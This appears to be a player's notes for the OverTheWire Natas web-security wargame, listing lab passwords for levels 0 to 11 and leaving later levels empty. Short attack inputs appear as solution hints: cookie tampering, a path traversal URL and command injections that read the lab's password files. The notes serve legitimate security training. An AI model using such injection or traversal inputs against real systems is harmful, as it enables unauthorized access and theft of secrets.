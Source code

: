 # Level 0

# Level 0 → Level 1

Username: natas0
Password: natas0
URL: http://natas0.natas.labs.overthewire.org

<!--The password for natas1 is 0nzCigAq7t2iALyvU9xcHlYN4MlkIwlq -->

# Level 1 → Level 2

```html
<div id="content">
  You can find the password for the next level on this page, but rightclicking
  has been blocked!

  <!--The password for natas2 is TguMNxKo1DSa1tujBLuZJnDUlCcUAPlI -->
</div>
```

# Level 2 → Level 3

```txt
# username:password
alice:BYNdCesZqW
bob:jw2ueICLvT
charlie:G5vCxkVV3m
natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH
eve:zo4mJWyNj2
mallory:9urtcpzBmH
```

# Level 3 → Level 4

natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ

# Level 4 → Level 5

PS C:\Users\jesus\projects\other\otw> & C:/Users/jesus/AppData/Local/Programs/Python/Python310/python.exe c:/Users/jesus/projects/other/otw/wargames/natas/natas05.py

Access granted. The password for natas5 is 0n35PkggAPm2zbEpOU802c0x0Msn1ToK

# Level 5 → Level 6

document.cookie = "loggedin=1"

0RoJwHdSKWFTYR5WuiAewauSuNaBXned

# Level 6 → Level 7

```php
<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>
```

bmg8SvU1LizuWjx3y7xkNERkHxGre0GS

# Level 7 → Level 8

http://natas7.natas.labs.overthewire.org/index.php?page=../../../../../../../../../../etc/natas_webpass/natas8

xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q

# Level 8 → Level 9

PS C:\Users\jesus\projects\other\otw> & C:/Users/jesus/AppData/Local/Programs/Python/Python310/python.exe c:/Users/jesus/projects/other/otw/wargames/natas/natas08.py  
b'oubWYf2kBq'

oubWYf2kBq

ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t

# Level 9 → Level 10

; cat /etc/natas_webpass/natas10

t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu

# Level 10 → Level 11

.\* /etc/natas_webpass/natas11

/etc/natas_webpass/natas11:UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk

# Level 11 → Level 12

The password for natas12 is yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB

# Level 12 → Level 13

# Level 13 → Level 14

# Level 14 → Level 15

# Level 15 → Level 16

# Level 16 → Level 17

# Level 17 → Level 18

# Level 18 → Level 19

# Level 19 → Level 20

# Level 20 → Level 21

# Level 21 → Level 22

# Level 22 → Level 23

# Level 23 → Level 24

# Level 24 → Level 25

# Level 25 → Level 26

# Level 26 → Level 27

# Level 27 → Level 28

# Level 28 → Level 29

# Level 29 → Level 30

# Level 30 → Level 31

# Level 31 → Level 32

# Level 32 → Level 33

# Level 33 → Level 34
